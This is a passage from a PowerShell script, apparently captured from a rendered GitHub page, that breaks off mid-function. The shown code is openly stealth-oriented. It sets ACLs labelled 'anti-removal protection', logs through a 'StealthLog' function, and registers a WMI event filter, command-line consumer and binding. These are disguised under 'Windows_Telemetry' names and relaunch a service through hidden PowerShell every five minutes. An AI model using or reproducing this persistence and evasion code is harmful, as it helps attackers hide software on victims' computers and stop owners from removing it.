 ```powershell
            'Allow'
        )
        $acl.AddAccessRule($adminRule)

        # Apply ACL
        Set-Acl -Path $installPath -AclObject $acl

        Write-StealthLog "Anti-removal protection enabled" -Level 'SUCCESS'
        return $true

    } catch {
        Write-StealthLog "Error setting anti-removal protection: $_" -Level 'WARNING'
        return $true
    }
}

function Add-WMIPersistence {
    Write-StealthLog "Adding WMI event subscription for persistence..."

    try {
        # WMI event filter - triggers every 5 minutes
        $filterName = "Windows_Telemetry_Health_Monitor"
        $filterQuery = "SELECT * FROM __InstanceModificationEvent WITHIN 300 WHERE TargetInstance ISA 'Win32_Service' AND TargetInstance.Name='$($StealthConfig.ServiceName)'"

        # Check if filter already exists
        $existingFilter = Get-WmiObject -Namespace root\subscription -Class __EventFilter -Filter "Name='$filterName'" -ErrorAction SilentlyContinue
        if ($existingFilter) {
            $existingFilter | Remove-WmiObject
        }

        # Create event filter
        $filter = Set-WmiInstance -Namespace root\subscription -Class __EventFilter -Arguments @{
            Name = $filterName
            EventNamespace = 'root\cimv2'
            QueryLanguage = 'WQL'
            Query = $filterQuery
        }

        # WMI consumer - restarts service if stopped
        $consumerName = "Windows_Telemetry_Service_Restarter"

        $existingConsumer = Get-WmiObject -Namespace root\subscription -Class CommandLineEventConsumer -Filter "Name='$consumerName'" -ErrorAction SilentlyContinue
        if ($existingConsumer) {
            $existingConsumer | Remove-WmiObject
        }

        $consumer = Set-WmiInstance -Namespace root\subscription -Class CommandLineEventConsumer -Arguments @{
            Name = $consumerName
            CommandLineTemplate = "powershell.exe -WindowStyle Hidden -Command `"if ((Get-Service -Name '$($StealthConfig.ServiceName)').Status -ne 'Running') { Start-Service -Name '$($StealthConfig.ServiceName)' }`""
        }

        # Bind filter to consumer
        $bindingName = "Windows_Telemetry_Service_Binding"

        $existingBinding = Get-WmiObject -Namespace root\subscription -Class __FilterToConsumerBinding -Filter "Filter = ""$($filter.__RELPATH)""" -ErrorAction SilentlyContinue
        if ($existingBinding) {
```